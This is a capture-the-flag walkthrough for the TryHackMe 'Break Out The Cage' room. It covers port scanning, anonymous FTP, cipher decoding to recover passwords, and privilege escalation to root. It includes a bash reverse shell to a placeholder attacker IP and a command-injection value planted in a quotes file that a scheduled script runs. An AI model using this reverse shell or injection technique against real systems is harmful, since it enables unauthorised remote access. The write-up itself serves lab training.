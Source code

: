 # [Break Out The Cage](https://tryhackme.com/room/breakoutthecage1)

## Help Cage bring back his acting career and investigate the nefarious goings on of his agent!

# Investigate!

## Let's find out what his agent is up to....

### What is Weston's password?

1. Begin by conducting a service version scan to identify open ports and running services on the target machine

```bash
nmap -sV <TARGET_IP>
```

[SCREEN01]

2. Since anonymous FTP access is available, explore the FTP service

```bash
ftp <TARGET_IP>
anonymous
ls -la
mget dad_tasks
```

[SCREEN02]

3. The content appears to be Base64 encoded text. After Base64 decoding, the result is a Vigenère cipher. Use [CyberChef](https://gchq.github.io/CyberChef/) for Base64 decoding. For Vigenère cipher analysis use [dCode](https://www.dcode.fr/vigenere-cipher)
   - The decrypted password is: `Mydadisghostrideraintthatcoolnocausehesonfirejokes`

[SCREEN03]

### What's the user flag?

1. With Weston's password recovered, we can now establish an SSH connection to gain initial access to the system

```bash
ssh weston@<TARGET_IP>
# Password: Mydadisghostrideraintthatcoolnocausehesonfirejokes
```

2. Examine the current user's privileges and available sudo permissions

```bash
sudo -l
sudo /usr/bin/bees
```

[SCREEN04]

3. Conduct system enumeration to identify files owned by other users, particularly the "cage" user

```bash
find / -type f -user cage 2>/dev/null
```

[SCREEN05]

4. Created a reverse shell script in `/tmp/shell.sh`. Inject the shell execution command into a quotes file that gets processed by an automated script

**Setup reverse shell listener**

```bash
nc -lvnp 4444
```

**Create and deploy payload**

```bash
cat > /tmp/shell.sh << EOF
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
EOF

chmod +x /tmp/shell.sh

printf 'Hello;/tmp/shell.sh\n' > /opt/.dads_scripts/.files/.quotes
```

5. After gaining access as the "cage" user through our reverse shell retrieve the user flag

```bash
ls -la
cat Super_Duper_Checklist
```

[SCREEN06]

### What's the root flag?

1. Now operating with "cage" user privileges, explore additional directories and files for privilege escalation opportunities

```bash
cd email_backup
cat email_3
```

[SCREEN07]

2. The email content appears to be encrypted using another Vigenère cipher. Use [CyberChef](https://gchq.github.io/CyberChef/) for Vigenère decryption, the key is `FACE`
   - The decrypted password is: `cageisnotalegend`

[SCREEN08]

3. With the discovered password, escalate privileges to root

```bash
su root
# cageisnotalegend

cat /root/email_backup/email_2
```

[SCREEN09]
